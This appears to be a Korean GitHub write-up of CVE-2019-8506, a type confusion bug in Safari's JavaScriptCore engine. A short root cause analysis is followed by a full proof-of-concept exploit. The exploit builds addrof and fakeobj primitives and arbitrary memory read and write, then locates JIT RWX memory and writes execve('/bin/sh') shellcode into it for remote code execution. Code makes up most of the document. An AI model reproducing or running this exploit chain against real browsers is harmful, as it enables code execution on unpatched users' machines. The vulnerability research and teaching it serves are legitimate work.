


# JavascriptCore Type Confusion RCE (CVE-2019-8506)
* Date : Jan 2019
* Credit : [saelo@google.com](https://bugs.chromium.org/p/project-zero/issues/detail?id=1753)
* CVSS : [8.8](https://nvd.nist.gov/vuln/detail/CVE-2019-8506)
* Affected Versions : MacOS Safari version < 12.1
* Patch : [webkit 취약점 패치 commit](https://git.webkit.org/?p=WebKit-https.git;a=commit;h=4697a5c4e5c606ccf7f630ed2972cc8103c353d5)

## Root Cause Analysis
### Direct property store
JavascriptCore에서 JSObjects(모든 오브젝트)는 Structure와 결합되어 있다.(Structure는 여러번 재사용된다.) Structure는 연결되어있는 오브젝트의 type, property와 저장된 element들의 type에 대한 정보를 가지고 있다. JavascriptCore는 inferred type mechanism을 통해서 property들의 type을 추적한다. 맨 처음 property가 생성될 때 해당 property의 type을 추정해서 Structure에 링크시켜놓는다. type을 추정하면 DFG와 FTL JIT 컴파일러가 해당 정보를 이용해 type check 과정을 생략(redundant guard 제거)할 수 있으며, 속도 향상에 도움이 된다.

Inferred type mechanism은 추정한 타입이 수정될 경우에 되돌릴 수 있는 watchpoint가 존재한다. 하지만 inferred type을 업데이트하지 않고 property를 수정하는 JSObject::putDirect 같은 경우엔 버그를 발생시키게 된다. 해당 함수는 createRegExpMatchesArray라는 함수에서 아래와 같이 사용된다.

```
let array = newArrayWithStructure(regExpMatchesArrayWithGroupsStructure);
    array->putDirect(vm, RegExpMatchesArrayIndexPropertyOffset, index)
    array->putDirect(vm, RegExpMatchesArrayInputPropertyOffset, input)
    array->putDirect(vm, RegExpMatchesArrayGroupsPropertyOffset, groups)
```

regExpMatchesArrayWithGroupsStructure 오브젝트가 처음 생성될 때에는 inferred type이 설정되어 있지 않다. 하지만 "having a bad time"이 발생하면 regExpMatchesArray가 ArrayWithSlowPutStorage mode를 사용하게 되면서, regExpMatchesArrayWithGroupsStructure가 다시 생성된다. 이를 통해 inferred type이 설정되어있는 regExpMatchesArrayWithGroupsStructure를 만들 수 있고, 이후에 실제 createRegExpMatchesArray 함수를 사용해서 해당 Structure를 사용하도록 만들면 putDirect 함수를 통한 type confusion을 발생시킬 수 있다.

### "having a bad time"(JSGlobalObject::haveABadTime)
JavascriptCore에서는 array의 prototype chain에 indexed accessors가 존재하면 현재 존재하는 모든 array의 indexing mode를 ArrayWithSlowPutStorage로 바꾼다. 이를 "having a bad time"이라고 한다.

## PoC Code

```javascript
let convert = new ArrayBuffer(0x8);
let f64 = new Float64Array(convert);
let u32 = new Uint32Array(convert);
let BASE = 0x100000000;
function i2f(x) {
      u32[0] = x % BASE;
      u32[1] = (x - (x % BASE)) / BASE;
      return f64[0];
}
function f2i(x) {
      f64[0] = x;
      return u32[0] + BASE * u32[1];
}
function i2jsv(x) {
    u32[0] = (x % BASE);
    u32[1] = ((x - (x % BASE)) / BASE) - 0x10000;
    return f64[0];
}
function hex(x) {
      return `0x${x.toString(16)}`
}
function d(x) {
    print(describe(x));
}
function pf(x) {
    print(hex(f2i(x)));
}
function ph(x) {
    print(hex(x));
}
function gc() {
      for (let i = 0; i < 0x10; i++) {
              new ArrayBuffer(0x1000000);
          }
}
function makeJITFunc() {
    function target(num) {
        for (var i = 2; i < num; i++) {
            if (num % i === 0) {
                return false;
            }
        }
        return true;
    }
    // Force JIT compilation.
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    return target;
}
// /System/Library/Frameworks/JavaScriptCore.framework/Resources/jsc poc.js
// The PoC will confuse objX with objY.
// objX will have structure S1, objY structure S2.
//let objX = {objProperty: {fetchme: [1.1]}};
//let objY = {doublePropety: [2.2]};             // 0x4141414141414141 in memory
//let target = [1.1,2.2,3.3];
let objX = {objProperty: {fetchme : 0x1234}};
let objY = {doubleProperty: []};
let victim = [1.1, 2.2, 3.3, 4.4, 5.5];
let structs = [];
for (let i = 0; i < 0x1000; i++) {
    var tmp = [1.1];
    tmp.pointer = i2f(0x1234);
    tmp['spray' + i.toString()] = 3.3;
    structs.push(tmp);
}
// Create a plain array with indexing type SlowPutArrayStorage. This is equivalent to
// `arrayStructureForIndexingTypeDuringAllocation(ArrayWithSlowPutArrayStorage)` in C++.
function createArrayWithSlowPutArrayStorage() {
    let protoWithIndexedAccessors = {};
    Object.defineProperty(protoWithIndexedAccessors, 1337, { get() { return 1337; } });
    // Compile a function that will end up creating an array with SlowPutArrayStorage.
    function helper(i) {
        // After JIT compilation, this new Array call will construct a normal array (with the
        // original Array prototype) with SlowPutArrayStorage due to profiling information from
        // previous executions (which all ended up transitioning to SlowPutArrayStorage).
        let a = new Array;
        if (i > 0) {
            // Convert the array to SlowPutArrayStorage by installing a prototype with indexed
            // accessors. This object can, however, not be used directly as the prototype is
            // different and thus the structure has changed.
            Object.setPrototypeOf(a, protoWithIndexedAccessors);
        }
        return a;
    }
    for (let i = 1; i < 10000; i++) {
        helper(i);
    }
    return helper(0);
}
// Helper object using inferred types.
let obj = {};
obj.inlineProperty1 = 1337;
obj.inlineProperty2 = 1338;
obj.oolProperty1 = objX;        // Inferred type of 'oolProperty1' will be ObjectWithStructure S1.
// 'obj' now has structure S3.
// Create the same structure (S4) that will later (when having a bad time) be used as
// regExpMatchesArrayWithGroupsStructure. Since property values are assigned during the initial
// structure transition, inferred types for all property values are created.
let a = createArrayWithSlowPutArrayStorage();       // a has Structure S4,
a.index = 42;                                       // S5,
a.input = "foobar";                                 // S6,
a.groups = obj;                                     // and S7.
// The inferred type for the .groups property will be ObjectWithStructure S3.
// Inferred type for this property will be ObjectWithStructure S7.
global = a;
// Must assign twice so the JIT uses the inferred type instead of assuming that
// the property is constant and installing a replacement watchpoint to
// deoptimize whenever the property is replaced.
global = a;
// Have a bad time. This will attempt to recreate the global regExpMatchesArrayWithGroupsStructure
// (to use an array with SlowPutArrayStorage), but since the same structure transitions were
// performed before, it will actually reuse the existing structure S7. As no property values are
// assigned, all inferred types for structure S7 will still be valid.
Object.defineProperty(Array.prototype, 1337, { get() { return 1337; } });
// Compile a function that uses the inferred value of 'global' to omit type checks.
function hax(val) {
  var re = global.groups.oolProperty1.objProperty.fetchme;
  global.groups.oolProperty1.objProperty.fetchme = val;
  return re;
}
for (let i = 0; i < 10000; i++) {
    hax(i2jsv(0x0108211700001001 + i));
}
// Create an ObjectWithStructure S7 which violates the inferred type of .groups (and potentially
// other properties) due to createRegExpMatchesArray using putDirect.
let match = "hax".match(/(?<oolProperty1>hax)/);
// match.groups has structure S8 and so assignments to it won't invalidate inferred types of S7.
match.groups.oolProperty1 = objY;       // This property overlaps with oolProperty1 of structure S3.
// The inferred type for 'global' is ObjectWithStructure S4 so watchpoints will not be fired.
global = match;
// backup original structure
let backup = hax(1);
let addrof = function (obj) {
  hax(backup);
  victim[0] = obj;
  hax(i2jsv(0x0108211700001000));
  return victim[2];
}
let fakeobj = function (addr) {
  hax(i2jsv(0x0108211700001000));
    victim[2] = addr;
    hax(backup);
  return victim[0];
}
let victim2 = structs[0x100];
let victim_addr = addrof(victim2);
let container = {
  header : i2jsv(0x0108210700001000),
  butterfly : victim2
}
let addr = addrof(container);
//d(victim2);
let fakeArray = fakeobj(addr + i2f(0x10));
read8 = function (addr) {
  fakeArray[1] = addr + i2f(0x10);
  return addrof(victim2.pointer);
}
write4 = function (addr, value) {
  fakeArray[1] = addr + i2f(0x10);
  victim2.pointer = value;
}
let func = makeJITFunc();
let funcAddr = addrof(func);
let executableAddr = read8(funcAddr + i2f(0x18));
let jitCodeObjAddr = read8(executableAddr + i2f(0x18));
let rwxMem = read8(jitCodeObjAddr + i2f(0x10));
print("rwx @ " + hex(f2i(rwxMem)));
shellcode = [0xb848686a, 0x6e69622f, 0x732f2f2f, 0xe7894850, 0x00003b68, 0x050f5802]

for(let i = 0; i < 0x30; i++) {
  write4(rwxMem + i2f(i * 4), i2f(0x90909090));
}
for(let i = 0; i < shellcode.length; i++) {
  write4(rwxMem + i2f(0xc0) + i2f(i * 4), i2f(shellcode[i]));
}
func();
```

## 실행 결과



## Reference
- [project-zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1753)
- [js-vuln-db](https://github.com/tunz/js-vuln-db/blob/master/jsc/CVE-2019-8506.md)
- [mhibio](https://mhibio.github.io/2020/04/11/Browser-Exploit-JavascriptCore-build/)
- [lordofpwn](https://lordofpwn.kr/cve-2019-8506-javascriptcore-exploit/)
